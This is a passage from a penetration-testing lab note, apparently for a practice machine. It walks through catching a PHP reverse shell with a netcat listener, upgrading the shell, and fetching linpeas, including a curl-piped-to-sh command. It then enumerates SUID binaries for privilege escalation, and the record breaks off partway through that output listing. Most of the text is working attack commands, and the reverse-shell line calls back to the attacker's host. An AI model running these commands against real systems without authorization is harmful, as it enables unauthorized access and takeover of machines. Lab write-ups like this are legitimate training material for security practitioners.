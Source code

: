 Get a normal reverse shell on my system.
Checked that nc is installed on target

prep. My IP is `192.168.49.128`
```
nc -nlvp 4444
```

Run through revshells.com until one works on this webshell
```sh
php -r '$sock=fsockopen("192.168.49.128",4444);exec("sh <&3 >&3 2>&3");'
```

That worked. Now to upgrade my shell
![[Pasted image 20231106202031.png]]

Python not found so use the script method
```sh
script /dev/null -c bash
```

###### Misconfigurations
Move to `/tmp` as a working directory
```sh
cd /tmp
```

\Linpeas Download methods. If `curl` or `wget` is present then run linpeas.sh and parse it's contents
```sh
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

```sh
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

If neither work then download linpeas.sh from the kali host assuming `wget` is present from the /tmp directory due to write permissions then add executable privileges  
```
wget http://192.168.49.128/linpeas.sh
```
![[Pasted image 20231106202916.png]]

Run Linpeas
```
chmod +x linpeas.sh
./linpeas.sh
```

Major Findings
###### Set SUID on Escalatable Programs
For manual SUID program checking 
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
	-rwsr-xr-x 1 root root 123432 Dec  2  2021 /snap/snapd/14295/usr/lib/snapd/snap-
	confine
	-rwsr-xr-x 1 root root 110792 Apr 10  2020 /snap/snapd/7264/usr/lib/snapd/snap-
	confine
	-rwsr-xr-x 1 root root 85064 Jul 14  2021 /snap/core20/1270/usr/bin/chfn
	-rwsr-xr-x 1 root root 53040 Jul 14  2021 /snap/core20/1270/usr/bin/chsh
	-rwsr-xr-x 1 root root 88464 Jul 14  2021 /snap/core20/1270/usr/bin/gpasswd
	-rwsr-xr-x 1 root root 55528 Jul 21  2020 /snap/core20/1270/usr/bin/mount
	-rwsr-xr-x 1 root root 44784 Jul 14  2021 /snap/core20/1270/usr/bin/newgrp
	-rwsr-xr-x 1 root root 68208 Jul 14  2021 /snap/core20/1270/usr/bin/passwd
	-rwsr-xr-x 1 root root 67816 Jul 21  2020 /snap/core20/1270/usr/bin/su
	-rwsr-xr-x 1 root root 166056 Jan 19  2021 /snap/core20/1270/usr/bin/sudo
	-rwsr-xr-x 1 root root 39144 Jul 21  2020 /snap/core20/1270/usr/bin/umount
	-rwsr-xr-- 1 root systemd-resolve 51344 Jun 11  2020 